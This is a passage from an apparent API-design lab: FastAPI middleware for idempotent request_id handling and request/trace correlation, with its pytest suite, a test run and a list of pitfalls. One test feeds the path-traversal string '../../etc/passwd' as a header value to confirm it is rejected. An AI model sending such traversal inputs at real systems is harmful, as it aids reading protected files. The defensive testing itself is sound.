    return TraceParent(trace_id, parent_id, sampled=bool(int(flags, 16) & 0x01))


class IdSource(Protocol):
    def request_id(self) -> str: ...
    def trace_id(self) -> str: ...
    def span_id(self) -> str: ...


class RandomIds:
    """Production source: UUIDv4 attempt IDs, CSPRNG trace and span IDs (never all zero)."""

    def request_id(self) -> str:
        return str(uuid.uuid4())

    def trace_id(self) -> str:
        return _nonzero_hex(16)

    def span_id(self) -> str:
        return _nonzero_hex(8)


def _nonzero_hex(nbytes: int) -> str:
    while (value := secrets.token_hex(nbytes)) == "0" * (2 * nbytes):
        pass
    return value


@dataclass(frozen=True, slots=True)
class Correlation:
    server_request_id: str  # this attempt; echoed as X-Request-ID
    trace_id: str
    span_id: str  # this server's span, a child of parent_id
    parent_id: str | None
    sampled: bool


_current: contextvars.ContextVar[Correlation | None] = contextvars.ContextVar(
    "correlation", default=None
)


def current_correlation() -> Correlation:
    correlation = _current.get()
    if correlation is None:
        raise RuntimeError("no correlation context: is CorrelationMiddleware installed?")
    return correlation


def log_event(log: Log, event: str, **fields: object) -> None:
    """Every record carries both IDs under names that cannot be confused."""
    correlation = current_correlation()
    log.append(
        {
            "event": event,
            "server_request_id": correlation.server_request_id,
            "trace_id": correlation.trace_id,
            "span_id": correlation.span_id,
            **fields,
        }
    )


def problem(status: int, title: str, detail: str, **extensions: object) -> JSONResponse:
    """RFC 9457 body whose `instance` names this occurrence by the server's attempt ID."""
    correlation = current_correlation()
    body: dict[str, object] = {
        "type": "about:blank",
        "title": title,
        "status": status,
        "detail": detail,
        "instance": f"urn:uuid:{correlation.server_request_id}",
        "trace_id": correlation.trace_id,
        **extensions,
    }
    return JSONResponse(body, status_code=status, media_type=PROBLEM_JSON)


class CorrelationMiddleware:
    """Pure ASGI: assign the attempt ID, continue the trace, stamp every response, catch 500s."""

    def __init__(self, app: ASGIApp, *, ids: IdSource, log: Log, trust_inbound: bool) -> None:
        self.app = app
        self.ids = ids
        self.log = log
        self.trust_inbound = trust_inbound

    def _inbound_request_id(self, values: list[str]) -> str | None:
        if not self.trust_inbound or len(values) != 1:
            return None
        try:
            return str(parse_request_id(values[0], ANY_RFC9562_VERSION))
        except RequestIdError:
            return None

    async def __call__(self, scope: Scope, receive: Receive, send: Send) -> None:
        if scope["type"] != "http":
            await self.app(scope, receive, send)
            return
        # ASGI: request header names "should be lowercased, but it is not required".
        headers = [(k.lower(), v.decode("latin-1")) for k, v in scope["headers"]]
        inbound = [v for k, v in headers if k == REQUEST_ID_HEADER]
        parents = [v for k, v in headers if k == TRACEPARENT_HEADER]
        adopted = self._inbound_request_id(inbound)
        parent = parse_traceparent(parents[0]) if len(parents) == 1 else None
        correlation = Correlation(
            server_request_id=adopted or self.ids.request_id(),
            trace_id=parent.trace_id if parent else self.ids.trace_id(),
            span_id=self.ids.span_id(),
            parent_id=parent.parent_id if parent else None,
            sampled=parent.sampled if parent else False,
        )
        stamp = correlation.server_request_id.encode("ascii")
        status: list[int] = []

        async def send_stamped(message: Message) -> None:
            if message["type"] == "http.response.start":
                status.append(message["status"])
                kept = [(k, v) for k, v in message.get("headers", []) if k != REQUEST_ID_HEADER]
                message = {**message, "headers": [*kept, (REQUEST_ID_HEADER, stamp)]}
            await send(message)

        token = _current.set(correlation)
        try:
            await self.app(scope, receive, send_stamped)
        except Exception as exc:
            log_event(self.log, "unhandled_exception", exception=type(exc).__name__)
            if status:  # headers already sent: nothing safe to add, let the server abort
                raise
            response = problem(500, "Internal Server Error", "Quote the instance to support.")
            await response(scope, receive, send_stamped)
        finally:
            log_event(
                self.log,
                "access",
                status=status[0] if status else None,
                parent_id=correlation.parent_id,
                inbound_request_id_ignored=bool(inbound) and adopted is None,
            )
            _current.reset(token)


class CreateRequest(BaseModel):
    """Body of CreateBook and CreateShelf: a title and the optional AIP-155 request_id."""

    model_config = ConfigDict(extra="forbid")

    title: str = Field(min_length=1, max_length=200)
    request_id: RequestId | None = None

    def fingerprint(self) -> str:
        """Hash of everything except request_id, to detect reuse with a different payload."""
        canonical = json.dumps(self.model_dump(exclude={"request_id"}), sort_keys=True)
        return hashlib.sha256(canonical.encode()).hexdigest()


@dataclass(frozen=True, slots=True)
class Replay:
    fingerprint: str
    body: dict[str, object]


@dataclass(slots=True)
class BookStore:
    books: list[dict[str, object]] = field(default_factory=list[dict[str, object]])
    shelves: list[dict[str, object]] = field(default_factory=list[dict[str, object]])
    # Key: (principal, method, canonical request_id). Never the raw text, never global.
    replays: dict[tuple[str, str, str], Replay] = field(
        default_factory=dict[tuple[str, str, str], Replay]
    )


@dataclass(frozen=True, slots=True)
class Lab:
    app: FastAPI
    store: BookStore
    log: Log


def build_lab(*, ids: IdSource | None = None, trust_inbound: bool = False) -> Lab:
    store = BookStore()
    log: Log = []
    app = FastAPI()
    app.add_middleware(
        CorrelationMiddleware, ids=ids or RandomIds(), log=log, trust_inbound=trust_inbound
    )

    @app.exception_handler(RequestValidationError)
    async def invalid(request: Request, exc: RequestValidationError) -> JSONResponse:
        errors = [
            {"field": ".".join(str(p) for p in e["loc"][1:]), "message": e["msg"]}
            for e in exc.errors()
        ]  # no "input": a rejected value is attacker-controlled text
        return problem(400, "Bad Request", "The request body is invalid.", errors=errors)

    def create(
        method: str,
        collection: str,
        rows: list[dict[str, object]],
        body: CreateRequest,
        principal: str,
    ) -> JSONResponse:
        key = None if body.request_id is None else (principal, method, body.request_id)
        prior = None if key is None else store.replays.get(key)
        if prior is not None:
            if prior.fingerprint != body.fingerprint():
                log_event(log, "request_id_reused", client_request_id=body.request_id)
                return problem(422, "Unprocessable Content", "request_id reused with new payload.")
            log_event(log, "replayed", client_request_id=body.request_id, name=prior.body["name"])
            return JSONResponse(prior.body, status_code=201)
        row: dict[str, object] = {"name": f"{collection}/{len(rows) + 1}", "title": body.title}
        rows.append(row)
        if key is not None:
            store.replays[key] = Replay(body.fingerprint(), row)
        log_event(log, "created", client_request_id=body.request_id, name=row["name"])
        return JSONResponse(row, status_code=201)

    # x-principal stands in for the authenticated caller in this lab.
    @app.post("/v1/books", status_code=201)
    async def create_book(
        body: CreateRequest, x_principal: Principal = "anonymous"
    ) -> JSONResponse:
        return create("CreateBook", "books", store.books, body, x_principal)

    @app.post("/v1/shelves", status_code=201)
    async def create_shelf(
        body: CreateRequest, x_principal: Principal = "anonymous"
    ) -> JSONResponse:
        return create("CreateShelf", "shelves", store.shelves, body, x_principal)

    @app.get("/v1/whoami")
    async def whoami() -> dict[str, str | None]:
        await asyncio.sleep(0)  # yield to other requests, as a real database call would
        correlation = current_correlation()
        return {
            "server_request_id": correlation.server_request_id,
            "trace_id": correlation.trace_id,
            "parent_id": correlation.parent_id,
        }

    @app.get("/v1/boom")
    async def boom() -> None:
        raise RuntimeError("database password=hunter2 rejected")  # must never reach the client

    return Lab(app=app, store=store, log=log)
```

### Test (`labs/tests/f06_bulk_long_running_and_error_contracts/test_idempotent_request_identification_and_request_id_correlation_aip_155.py`)

```python
"""Lab: client request_id (AIP-155) vs server X-Request-ID vs W3C traceparent correlation."""

import asyncio
import contextvars
import secrets
import uuid

import httpx
import pytest
from fastapi import FastAPI, Request
from fastapi.responses import JSONResponse
from opentelemetry import trace
from opentelemetry.trace.propagation.tracecontext import TraceContextTextMapPropagator
from pydantic import UUID4, TypeAdapter, ValidationError
from starlette.types import ASGIApp, Message, Receive, Scope, Send

from api_labs.f06_bulk_long_running_and_error_contracts.request_identification import (
    ANY_RFC9562_VERSION,
    PROBLEM_JSON,
    Correlation,
    CorrelationMiddleware,
    Lab,
    Log,
    RandomIds,
    RequestIdError,
    _current,  # pyright: ignore[reportPrivateUsage]
    build_lab,
    current_correlation,
    parse_request_id,
    parse_traceparent,
)

V4 = "919108f7-52d1-4320-9bac-f847db4148a8"  # RFC 9562 Appendix A.3
V7 = "017F22E2-79B0-7CC3-98C4-DC0C0C07398F"  # RFC 9562 Appendix A.6, uppercase as printed
TRACE = "4bf92f3577b34da6a3ce929d0e0e4736"  # W3C Trace Context 3.2.3 example
PARENT = "00f067aa0ba902b7"
TRACEPARENT = f"00-{TRACE}-{PARENT}-01"


class SequentialIds:
    """Deterministic IdSource: attempt N gets UUIDv4 with integer N in its random bits."""

    def __init__(self) -> None:
        self.n = 0

    def _next(self) -> int:
        self.n += 1
        return self.n

    def request_id(self) -> str:
        return str(uuid.UUID(int=self._next(), version=4))

    def trace_id(self) -> str:
        return f"{self._next():032x}"

    def span_id(self) -> str:
        return f"{self._next():016x}"


def client(lab: Lab) -> httpx.AsyncClient:
    return httpx.AsyncClient(transport=httpx.ASGITransport(app=lab.app), base_url="http://test")


def raw_scope(headers: list[tuple[bytes, bytes]]) -> Scope:
    """A bare ASGI HTTP scope, so header names reach the app exactly as written here."""
    return {
        "type": "http",
        "asgi": {"version": "3.0"},
        "http_version": "1.1",
        "method": "GET",
        "scheme": "http",
        "path": "/v1/whoami",
        "raw_path": b"/v1/whoami",
        "root_path": "",
        "query_string": b"",
        "headers": headers,
        "client": ("127.0.0.1", 1),
        "server": ("test", 80),
    }


async def drive(app: ASGIApp, scope: Scope, sent: list[Message]) -> None:
    """Run one bodyless request through an ASGI app, collecting every message it sends."""

    async def receive() -> Message:
        return {"type": "http.request", "body": b"", "more_body": False}

    async def send(message: Message) -> None:
        sent.append(message)

    await app(scope, receive, send)


async def run_wrapped(
    inner: ASGIApp, sent: list[Message], log: Log, headers: tuple[tuple[bytes, bytes], ...] = ()
) -> None:
    """Drive one GET through CorrelationMiddleware wrapped around a bare ASGI app."""
    app = CorrelationMiddleware(inner, ids=SequentialIds(), log=log, trust_inbound=False)
    await drive(app, raw_scope(list(headers)), sent)


# --- request_id grammar ---------------------------------------------------------------------


@pytest.mark.unit
@pytest.mark.parametrize(
    "raw",
    [V4, V4.upper(), "F47AC10B-58CC-4372-8567-0E02B2C3D479"],
    ids=["rfc9562-a3", "uppercase", "mixed-source"],
)
def test_accepts_36_char_v4_in_any_case_and_normalizes_to_lowercase(raw: str) -> None:
    value = parse_request_id(raw)
    assert value.version == 4
    assert str(value) == raw.lower()


@pytest.mark.unit
@pytest.mark.parametrize(
    ("raw", "reason"),
    [
        ("00000000-0000-0000-0000-000000000000", "nil UUID"),
        ("ffffffff-ffff-ffff-ffff-ffffffffffff", "version"),
        ("F47AC10B-58CC-0372-8567-0E02B2C3D479", "version"),  # field_info.proto example: v0
        ("f47ac10b-58cc-4372-c567-0e02b2c3d479", "version"),  # Microsoft variant, not RFC
        (V7, "version"),  # valid UUID, but AIP-155 annotates UUID4
        (f"{{{V4}}}", "36-character"),
        (f"urn:uuid:{V4}", "36-character"),
        (V4.replace("-", ""), "36-character"),
        ("9-1-9-1-08f752d143209bacf847db4148a8", "36-character"),
        (V4 + "\n", "36-character"),
        (12345, "36-character"),
    ],
    ids=[
        "nil",
        "max",
        "version-0",
        "microsoft-variant",
        "v7-under-v4-policy",
        "braces",
        "urn",
        "no-hyphens",
        "hyphens-anywhere",
        "trailing-newline",
        "not-a-string",
    ],
)
def test_rejects_everything_but_a_36_char_rfc9562_v4(raw: object, reason: str) -> None:
    with pytest.raises(RequestIdError, match=reason):
        parse_request_id(raw)


@pytest.mark.unit
def test_stdlib_and_pydantic_parsers_are_lax_so_a_grammar_check_must_come_first() -> None:
    lax_forms = [
        f"{{{V4}}}",
        f"urn:uuid:{V4}",
        V4.replace("-", ""),
        "9-1-9-1-08f752d143209bacf847db4148a8",
    ]
    for lax in lax_forms:
        assert str(uuid.UUID(lax)) == V4
    for lax in lax_forms[:3]:  # the Rust parser rejects only the misplaced hyphens
        assert str(TypeAdapter(UUID4).validate_python(lax)) == V4
    with pytest.raises(ValidationError, match="invalid group length"):
        TypeAdapter(UUID4).validate_python(lax_forms[3])
    assert uuid.UUID("00000000-0000-0000-0000-000000000000").version is None


@pytest.mark.unit
def test_v7_is_accepted_only_when_the_policy_names_version_7() -> None:
    assert parse_request_id(V7, frozenset({4, 7})).version == 7
    assert str(parse_request_id(V7, ANY_RFC9562_VERSION)) == V7.lower()


# --- traceparent ----------------------------------------------------------------------------

TRACEPARENT_CASES = [
    TRACEPARENT,
    f"00-{TRACE}-{PARENT}-00",
    f"00-{TRACE}-{PARENT}-02",  # an unknown flag bit: sampled only if bit 0 is masked out
    f"  {TRACEPARENT}\t",
    f"00-{TRACE.upper()}-{PARENT}-01",
    f"00-{'0' * 32}-{PARENT}-01",
    f"00-{TRACE}-{'0' * 16}-01",
    f"ff-{TRACE}-{PARENT}-01",
    f"00-{TRACE}-{PARENT}-01-extra",
    f"01-{TRACE}-{PARENT}-01-future",
    f"01-{TRACE}-{PARENT}-01",  # a later version at exactly 55 characters
    f"00-{TRACE}-{PARENT}-01x",  # trailing text that is not a "-" separated field
    f"00-{TRACE}-{PARENT}",
    "garbage",
]


@pytest.mark.unit
@pytest.mark.parametrize("value", TRACEPARENT_CASES)
def test_traceparent_parser_agrees_with_opentelemetry_propagator(value: str) -> None:
    ours = parse_traceparent(value)
    context = TraceContextTextMapPropagator().extract({"traceparent": value})
    theirs = trace.get_current_span(context).get_span_context()
    assert (ours is not None) == theirs.is_valid
    if ours is not None:
        assert ours.trace_id == f"{theirs.trace_id:032x}"
        assert ours.parent_id == f"{theirs.span_id:016x}"
        assert ours.sampled == theirs.trace_flags.sampled


# --- HTTP: three identifiers ----------------------------------------------------------------


@pytest.mark.unit
@pytest.mark.asyncio
async def test_retry_reuses_request_id_but_every_attempt_gets_its_own_x_request_id() -> None:
    lab = build_lab(ids=SequentialIds())
    async with client(lab) as c:
        body = {"title": "Dune", "request_id": V4}
        first = await c.post("/v1/books", json=body)
        retry = await c.post("/v1/books", json=body)
    assert first.status_code == retry.status_code == 201
    assert first.json() == retry.json() == {"name": "books/1", "title": "Dune"}
    assert len(lab.store.books) == 1
    attempt_ids = {first.headers["x-request-id"], retry.headers["x-request-id"]}
    assert len(attempt_ids) == 2
    assert V4 not in attempt_ids
    business = [r for r in lab.log if r["event"] in {"created", "replayed"}]
    assert [r["event"] for r in business] == ["created", "replayed"]
    assert {r["client_request_id"] for r in business} == {V4}
    assert {r["server_request_id"] for r in business} == attempt_ids


@pytest.mark.unit
@pytest.mark.asyncio
async def test_uppercase_spelling_of_the_same_uuid_is_the_same_request() -> None:
    lab = build_lab()
    async with client(lab) as c:
        await c.post("/v1/books", json={"title": "Dune", "request_id": V4})
        again = await c.post("/v1/books", json={"title": "Dune", "request_id": V4.upper()})
    assert again.json()["name"] == "books/1"
    assert len(lab.store.books) == 1


@pytest.mark.unit
@pytest.mark.asyncio
async def test_same_request_id_with_a_different_payload_is_422_and_creates_nothing() -> None:
    lab = build_lab()
    async with client(lab) as c:
        await c.post("/v1/books", json={"title": "Dune", "request_id": V4})
        reused = await c.post("/v1/books", json={"title": "Emma", "request_id": V4})
    assert reused.status_code == 422
    assert reused.headers["content-type"] == PROBLEM_JSON
    assert len(lab.store.books) == 1


@pytest.mark.unit
@pytest.mark.asyncio
async def test_request_id_is_scoped_per_principal_so_tenants_never_see_each_others_replay() -> None:
    lab = build_lab()
    async with client(lab) as c:
        body = {"title": "Dune", "request_id": V4}
        alice = await c.post("/v1/books", json=body, headers={"x-principal": "alice"})
        bob = await c.post("/v1/books", json=body, headers={"x-principal": "bob"})
    assert alice.json()["name"] == "books/1"
    assert bob.json()["name"] == "books/2"


@pytest.mark.unit
@pytest.mark.asyncio
async def test_request_id_is_scoped_per_method_so_another_method_is_not_a_replay() -> None:
    lab = build_lab()
    async with client(lab) as c:
        body = {"title": "Dune", "request_id": V4}
        book = await c.post("/v1/books", json=body)
        shelf = await c.post("/v1/shelves", json=body)
        shelf_retry = await c.post("/v1/shelves", json=body)
    assert book.json()["name"] == "books/1"
    assert shelf.json() == shelf_retry.json() == {"name": "shelves/1", "title": "Dune"}
    assert (len(lab.store.books), len(lab.store.shelves)) == (1, 1)


@pytest.mark.unit
@pytest.mark.asyncio
async def test_without_request_id_a_retry_creates_a_duplicate() -> None:
    lab = build_lab()
    async with client(lab) as c:
        await c.post("/v1/books", json={"title": "Dune"})
        await c.post("/v1/books", json={"title": "Dune"})
    assert [b["name"] for b in lab.store.books] == ["books/1", "books/2"]


@pytest.mark.unit
@pytest.mark.asyncio
async def test_nil_request_id_is_a_400_problem_whose_instance_is_the_attempt_id() -> None:
    lab = build_lab(ids=SequentialIds())
    nil = "00000000-0000-0000-0000-000000000000"
    async with client(lab) as c:
        r = await c.post("/v1/books", json={"title": "Dune", "request_id": nil})
    assert r.status_code == 400
    assert r.headers["content-type"] == PROBLEM_JSON
    problem = r.json()
    assert problem["instance"] == f"urn:uuid:{r.headers['x-request-id']}"
    assert problem["trace_id"] == lab.log[-1]["trace_id"]
    assert problem["errors"] == [
        {"field": "request_id", "message": "Value error, request_id must not be the nil UUID"}
    ]
    assert nil not in r.text
    assert lab.store.books == []


@pytest.mark.unit
@pytest.mark.asyncio
@pytest.mark.parametrize(
    ("body", "principal", "field"),
    [
        ({"title": "Dune", "requestId": V4}, "alice", "requestId"),
        ({"title": ""}, "alice", "title"),
        ({"title": "x" * 201}, "alice", "title"),
        ({"title": "Dune"}, "Alice Smith", "x-principal"),
        ({"title": "Dune"}, "a" * 33, "x-principal"),
    ],
    ids=[
        "unknown-field",
        "empty-title",
        "title-201-chars",
        "principal-charset",
        "principal-33-chars",
    ],
)
async def test_malformed_create_is_a_400_problem_naming_the_field_and_creates_nothing(
    body: dict[str, str], principal: str, field: str
) -> None:
    lab = build_lab()
    async with client(lab) as c:
        r = await c.post("/v1/books", json=body, headers={"x-principal": principal})
        ok = await c.post("/v1/books", json={"title": "x" * 200}, headers={"x-principal": "a" * 32})
    assert r.status_code == 400
    assert r.headers["content-type"] == PROBLEM_JSON
    assert [e["field"] for e in r.json()["errors"]] == [field]
    assert ok.status_code == 201  # the bounds themselves are accepted
    assert len(lab.store.books) == 1


# --- inbound X-Request-ID and traceparent ---------------------------------------------------


@pytest.mark.unit
@pytest.mark.asyncio
async def test_untrusted_inbound_x_request_id_is_replaced_and_flagged() -> None:
    lab = build_lab(ids=SequentialIds())
    async with client(lab) as c:
        r = await c.get("/v1/whoami", headers={"x-request-id": V4})
        ignored = lab.log[-1]["inbound_request_id_ignored"]
        await c.get("/v1/whoami")
    assert r.headers["x-request-id"] != V4
    assert r.json()["server_request_id"] == r.headers["x-request-id"]
    assert ignored is True
    assert lab.log[-1]["inbound_request_id_ignored"] is False  # nothing was sent, nothing ignored


@pytest.mark.unit
@pytest.mark.asyncio
@pytest.mark.parametrize(
    ("headers", "adopted"),
    [
        ([("x-request-id", V7)], V7.lower()),
        ([("x-request-id", "../../etc/passwd")], None),
        ([("x-request-id", "a" * 4096)], None),
        ([("x-request-id", V4), ("x-request-id", V7)], None),
    ],
    ids=["valid-uuid-normalized", "junk", "oversized", "duplicate-field-lines"],
)
async def test_trusted_edge_x_request_id_is_adopted_only_if_single_and_well_formed(
    headers: list[tuple[str, str]], adopted: str | None
) -> None:
    lab = build_lab(ids=SequentialIds(), trust_inbound=True)
    async with client(lab) as c:
        r = await c.get("/v1/whoami", headers=headers)
    if adopted is None:
        assert r.headers["x-request-id"] not in {v for _, v in headers}
        assert lab.log[-1]["inbound_request_id_ignored"] is True
        assert not any(v in repr(lab.log) for _, v in headers)  # the raw value is never logged
    else:
        assert r.headers["x-request-id"] == adopted
        assert lab.log[-1]["inbound_request_id_ignored"] is False


@pytest.mark.unit
@pytest.mark.asyncio
async def test_valid_traceparent_is_continued_with_a_new_span_and_invalid_one_restarts() -> None:
    lab = build_lab(ids=SequentialIds())
    async with client(lab) as c:
        joined = (await c.get("/v1/whoami", headers={"traceparent": TRACEPARENT})).json()
        bad = f"00-{TRACE.upper()}-{PARENT}-01"
        restarted = (await c.get("/v1/whoami", headers={"traceparent": bad})).json()
    assert joined["trace_id"] == TRACE
    assert joined["parent_id"] == PARENT
    assert restarted["trace_id"] != TRACE
    assert restarted["parent_id"] is None
    spans = [r["span_id"] for r in lab.log if r["event"] == "access"]
    assert PARENT not in spans
    assert len(set(spans)) == 2


@pytest.mark.unit
@pytest.mark.asyncio
async def test_duplicate_traceparent_lines_restart_the_trace() -> None:
    lab = build_lab(ids=SequentialIds())
    other = f"00-{'a' * 32}-{PARENT}-01"
    async with client(lab) as c:
        lines = [("traceparent", TRACEPARENT), ("traceparent", other)]
        restarted = (await c.get("/v1/whoami", headers=lines)).json()
    assert restarted["trace_id"] not in {TRACE, "a" * 32}
    assert restarted["parent_id"] is None


@pytest.mark.unit
@pytest.mark.asyncio
async def test_header_names_are_matched_case_insensitively_on_raw_asgi_scopes() -> None:
    # httpx.ASGITransport lowercases names; ASGI servers are not required to, so drive raw ASGI.
    lab = build_lab(ids=SequentialIds(), trust_inbound=True)
    scope = raw_scope([(b"X-Request-ID", V4.encode()), (b"Traceparent", TRACEPARENT.encode())])
    sent: list[Message] = []
    await drive(lab.app, scope, sent)
    start = sent[0]
    assert start["status"] == 200
    assert (b"x-request-id", V4.encode()) in start["headers"]
    access = lab.log[-1]
    assert access["trace_id"] == TRACE
    assert access["parent_id"] == PARENT


@pytest.mark.unit
@pytest.mark.asyncio
async def test_non_ascii_header_bytes_are_ignored_instead_of_crashing_the_middleware() -> None:
    # RFC 9110 Section 5.5 lets a field value carry obs-text (bytes 0x80 to 0xFF).
    lab = build_lab(ids=SequentialIds(), trust_inbound=True)
    scope = raw_scope([(b"x-request-id", b"\xff\xfe"), (b"traceparent", b"00-\xe9")])
    sent: list[Message] = []
    await drive(lab.app, scope, sent)
    assert sent[0]["status"] == 200
    access = lab.log[-1]
    assert (b"x-request-id", str(access["server_request_id"]).encode()) in sent[0]["headers"]
    assert access["inbound_request_id_ignored"] is True
    assert access["parent_id"] is None


@pytest.mark.unit
@pytest.mark.asyncio
async def test_sampled_bit_and_parent_of_a_continued_trace_reach_the_handler_context() -> None:
    seen: list[Correlation] = []

    async def inner(scope: Scope, receive: Receive, send: Send) -> None:
        seen.append(current_correlation())
        await send({"type": "http.response.start", "status": 204, "headers": []})
        await send({"type": "http.response.body", "body": b""})

    unsampled = f"00-{TRACE}-{PARENT}-00"
    await run_wrapped(inner, [], [], ((b"traceparent", TRACEPARENT.encode()),))
    await run_wrapped(inner, [], [], ((b"traceparent", unsampled.encode()),))
    await run_wrapped(inner, [], [])
    assert [c.sampled for c in seen] == [True, False, False]
    assert [c.parent_id for c in seen] == [PARENT, PARENT, None]
    assert [c.trace_id == TRACE for c in seen] == [True, True, False]


@pytest.mark.unit
@pytest.mark.asyncio
async def test_non_http_scopes_pass_through_with_the_original_send_and_no_log() -> None:
    received: list[Send] = []
    log: Log = []

    async def inner(scope: Scope, receive: Receive, send: Send) -> None:
        received.append(send)

    async def receive() -> Message:
        return {"type": "lifespan.startup"}

    async def send(message: Message) -> None:
        raise AssertionError("nothing is sent for this scope")

    app = CorrelationMiddleware(inner, ids=SequentialIds(), log=log, trust_inbound=False)
    await app({"type": "lifespan", "asgi": {"version": "3.0"}}, receive, send)
    assert received == [send]
    assert log == []


@pytest.mark.unit
@pytest.mark.asyncio
async def test_x_request_id_set_by_the_app_is_replaced_not_duplicated() -> None:
    async def inner(scope: Scope, receive: Receive, send: Send) -> None:
        own = [(b"x-request-id", b"app-chosen")]
        await send({"type": "http.response.start", "status": 204, "headers": own})
        await send({"type": "http.response.body", "body": b""})

    sent: list[Message] = []
    log: Log = []
    await run_wrapped(inner, sent, log)
    lines = [v for k, v in sent[0]["headers"] if k == b"x-request-id"]
    assert lines == [str(log[-1]["server_request_id"]).encode()]


@pytest.mark.unit
@pytest.mark.asyncio
async def test_production_id_source_mints_uuid4_attempt_ids_and_valid_w3c_ids() -> None:
    lab = build_lab()
    async with client(lab) as c:
        r = await c.get("/v1/whoami")
    attempt = r.headers["x-request-id"]
    assert str(parse_request_id(attempt)) == attempt  # 36 characters, version 4, lowercase
    minted = f"00-{r.json()['trace_id']}-{lab.log[-1]['span_id']}-00"
    assert parse_traceparent(minted) is not None


@pytest.mark.unit
def test_random_ids_redraw_an_all_zero_span_id(monkeypatch: pytest.MonkeyPatch) -> None:
    draws = iter(["0" * 16, PARENT])

    def token_hex(nbytes: int) -> str:
        assert nbytes == 8
        return next(draws)

    monkeypatch.setattr(secrets, "token_hex", token_hex)
    assert RandomIds().span_id() == PARENT


# --- failure paths and context isolation ----------------------------------------------------


@pytest.mark.unit
@pytest.mark.asyncio
async def test_unhandled_exception_still_returns_x_request_id_and_a_safe_problem() -> None:
    lab = build_lab(ids=SequentialIds())
    transport = httpx.ASGITransport(app=lab.app, raise_app_exceptions=False)
    async with httpx.AsyncClient(transport=transport, base_url="http://test") as c:
        r = await c.get("/v1/boom")
    assert r.status_code == 500
    assert r.headers["content-type"] == PROBLEM_JSON
    attempt = r.headers["x-request-id"]
    assert r.json()["instance"] == f"urn:uuid:{attempt}"
    assert "hunter2" not in r.text
    crash = next(rec for rec in lab.log if rec["event"] == "unhandled_exception")
    assert crash["server_request_id"] == attempt
    assert r.json()["trace_id"] == crash["trace_id"]
    assert crash["exception"] == "RuntimeError"  # the class name only, never the message
    assert "hunter2" not in repr(lab.log)
    assert lab.log[-1]["status"] == 500


@pytest.mark.unit
@pytest.mark.asyncio
async def test_crash_after_response_start_is_reraised_without_a_second_response() -> None:
    async def inner(scope: Scope, receive: Receive, send: Send) -> None:
        await send({"type": "http.response.start", "status": 200, "headers": []})
        raise RuntimeError("stream broke")

    sent: list[Message] = []
    log: Log = []
    with pytest.raises(RuntimeError, match="stream broke"):
        await run_wrapped(inner, sent, log)
    assert [m["type"] for m in sent] == ["http.response.start"]
    assert [r["event"] for r in log] == ["unhandled_exception", "access"]
    assert log[-1]["status"] == 200


class StampOnly:
    """The naive design: set a context variable and stamp the header, but do not catch."""

    def __init__(self, app: ASGIApp) -> None:
        self.app = app

    async def __call__(self, scope: Scope, receive: Receive, send: Send) -> None:
        async def stamped(message: Message) -> None:
            if message["type"] == "http.response.start":
                message = {**message, "headers": [*message["headers"], (b"x-request-id", b"1")]}
            await send(message)

        token = NAIVE.set("1")
        try:
            await self.app(scope, receive, stamped)
        finally:
            NAIVE.reset(token)


NAIVE: contextvars.ContextVar[str | None] = contextvars.ContextVar("naive", default=None)


@pytest.mark.unit
@pytest.mark.asyncio
async def test_fastapi_exception_handler_runs_outside_user_middleware_so_it_loses_the_id() -> None:
    seen: list[str | None] = []

    async def on_error(request: Request, exc: Exception) -> JSONResponse:
        seen.append(NAIVE.get())
        return JSONResponse({"detail": "error"}, status_code=500)

    app = FastAPI()
    app.add_middleware(StampOnly)
    app.add_exception_handler(Exception, on_error)

    @app.get("/boom")
    async def boom() -> None:
        raise RuntimeError("boom")

    transport = httpx.ASGITransport(app=app, raise_app_exceptions=False)
    async with httpx.AsyncClient(transport=transport, base_url="http://test") as c:
        r = await c.get("/boom")
        ok = await c.get("/missing")
    assert r.status_code == 500
    assert "x-request-id" not in r.headers
    assert seen == [None]
    assert ok.headers["x-request-id"] == "1"  # the stamp works on every non-crash path


@pytest.mark.unit
@pytest.mark.asyncio
async def test_concurrent_requests_each_see_their_own_correlation_and_it_is_reset_after() -> None:
    lab = build_lab(ids=SequentialIds())
    async with client(lab) as c:
        responses = await asyncio.gather(*(c.get("/v1/whoami") for _ in range(20)))
        await c.get("/v1/whoami")  # ASGITransport runs the app in this task
    assert _current.get() is None
    with pytest.raises(RuntimeError, match="no correlation context"):
        current_correlation()
    for r in responses:
        assert r.json()["server_request_id"] == r.headers["x-request-id"]
    assert len({r.headers["x-request-id"] for r in responses}) == 20
```

### Captured run

From `labs/`, CPython `3.14.6`, macOS `27.2` on Apple M3 Pro (`Darwin 27.2.0 arm64`):

```text
$ uv run --frozen pytest tests/f06_bulk_long_running_and_error_contracts/test_idempotent_request_identification_and_request_id_correlation_aip_155.py -q
............................................................             [100%]
60 passed in 0.61s
```

## Pitfalls

> [!warning] Echoing the client's `request_id` as `X-Request-ID`
> Trigger: middleware copies the idempotency key into the correlation header, or logs it under the same field name as the server id.
> Symptom: a create and its three retries share one "request id", so the logs cannot say which attempt timed out, which reached the database, or which the load balancer dropped.
> Fix: mint a new attempt id per request, log `client_request_id` and `server_request_id` as separate fields, and join attempts by the client key; the retry test asserts two different `X-Request-ID` values and that neither equals the `request_id`.

> [!warning] Comparing UUIDs as text
> Trigger: the dedupe key is the raw string, so `919108F7-...` and `919108f7-...` are different keys.
> Symptom: a client library that uppercases (or a proxy that normalizes) turns one retry into a second create.
> Fix: AIP-202 says to compare with an RFC implementation; key on `str(uuid.UUID(raw))` after the grammar check (mutation M5).

> [!warning] The zero value as a request ID
> Trigger: a client SDK sends the zero value of an unset UUID field, `00000000-0000-0000-0000-000000000000`, on every call.
> Symptom: every request from that client maps to one key, so after the first create every later create replays the first response; this is the failure the googleapis sentence "zero UUID is not supported" rules out (the causal link is this note's reasoning, not Google's stated rationale).
> Fix: reject Nil with a specific `400` message; RFC 9562 Section 5.9 reserves it for "no such value here".

> [!warning] Lax parsers as validators
> Trigger: `uuid.UUID(raw)` or pydantic `UUID4` is the only validation.
> Symptom: `urn:uuid:...`, braces, and (stdlib only) hyphens anywhere are accepted, so the documented "36 ASCII characters" contract is false and other services that store the raw text disagree with yours about identity.
> Fix: `re.fullmatch` the 36-character grammar first, then parse (mutation M2 fails eight tests: four malformed forms are accepted and four junk values raise an uncaught `ValueError`).

> [!warning] Trusting an inbound `X-Request-ID` from the internet
> Trigger: the app adopts whatever `X-Request-ID` arrives, and logs it verbatim.
